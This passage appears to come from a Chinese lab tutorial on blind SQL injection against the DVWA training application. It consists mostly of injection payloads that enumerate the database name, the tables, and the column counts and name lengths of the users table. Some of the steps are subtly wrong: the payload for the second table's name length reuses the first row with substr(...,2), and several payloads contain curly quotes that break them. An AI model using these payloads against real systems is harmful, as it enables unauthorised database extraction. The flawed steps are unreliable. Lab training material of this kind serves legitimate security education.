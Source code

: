         

这样我们便知道数据库的第一个字符的ascii值为100，对应d

    1' and ascii(substr(database(),4,1))<110 # 	显示存在
    1' and ascii(substr(database(),4,1))<100 # 	显示存在
    1' and ascii(substr(database(),4,1))=97 # 	显示存在
    
        

这样我们便知道数据库的最后一个字符的ascii值为97，对应a-
再猜解第二个和三个可知库名：dvwa。

#### 3.猜解数据库中的表名

1.  首先猜解表数量

    1' and (select count(table_name) from information_schema.tables where table_schema=database())=1 #		显示不存在
    1' and (select count(table_name) from information_schema.tables where table_schema=database())=2 #		显示存在
    
        

则数据库中共有两个表

2.  依次猜解表名，猜解表名跟猜解库名的方法是一样的，不过使用的是下面这一条语句

    1' and length(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1))=9# # 显示存在，说明第一个表名长度为9
    
        

    1' and length(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),2))=5# # 第二个表名长度为5
    
        

3.  猜解表名的一个个字符

    1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))>100 #
    
        

重复该步骤，可猜解出两个表名分别为guestbook和users

#### 4\. 猜解表中列名

1.  猜列数，还是跟上面猜解表数量的步骤是一样的，使用下面这条语句

    1’ and (select count(column_name)from information_schema.columns where table_name=‘users’)=8 #
    
        

找到users表中有8列

2.  猜解每列列名长度，使用下面这条语句

    1' and length(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1))=7 #
    
        

    1’ and length(substr((select column_name from information_schema.columns where table_name=‘users’ limit 0,1),2))=6 #
    